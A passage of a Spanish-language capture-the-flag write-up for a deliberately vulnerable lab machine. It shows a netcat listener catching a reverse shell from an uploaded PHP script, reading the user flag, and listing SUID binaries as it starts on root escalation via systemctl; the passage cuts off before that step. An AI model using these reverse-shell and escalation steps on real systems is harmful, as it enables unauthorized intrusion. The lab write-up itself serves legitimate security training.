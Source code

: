 Para acceder al servidor, es necesario poner en escucha el puerto indicado en el script `reverse.phtml` y posteriormente ejecutar su contenido haciendo clic sobre él. De esta manera, se obtiene una shell con el usuario `www-data`.

```bash
❯ rlwrap nc -nlvp 9001
listening on [any] 9001 ...
connect to [x.x.x.x] from (UNKNOWN) [10.10.229.64] 40858
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:29:52 up 23 min,  0 users,  load average: 0.00, 0.02, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Para mejorar la comodidad durante la interacción con la terminal, realizamos un tratamiento de la TTY siguiendo los pasos respectivos.

En este punto ya tenemos acceso remoto al servidor y ya podemos acceder al directorio del usuario bill `/home/bill` y leer la primera flag.

```bash
www-data@vulnuniversity:/home/bill$ cat user.txt
cat user.txt
8bd7992fbe8a6ad2****************
```

## Escalación de privilegios

---

### Abuso del binario systemctl con SUID

Después de obtener una shell en la máquina, nuestro objetivo es elevar nuestros privilegios y obtener acceso como usuario `root`. Una buena practica es listar los privilegios que tiene el usuario actual para ejecutar comandos con `sudo`. Lamentablemente, esta acción nos solicita la contraseña del usuario `www-data`, la cual desconocemos. 

A continuación, procedemos a listar los binarios `SUID` con el fin de identificar posibles binarios con permisos mal configurados que puedan permitirnos escalar privilegios.

```bash
www-data@vulnuniversity:/home/bill$ find / -perm -4000 -user root -type f 2>/dev/null
find / -perm -4000 -user root -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
```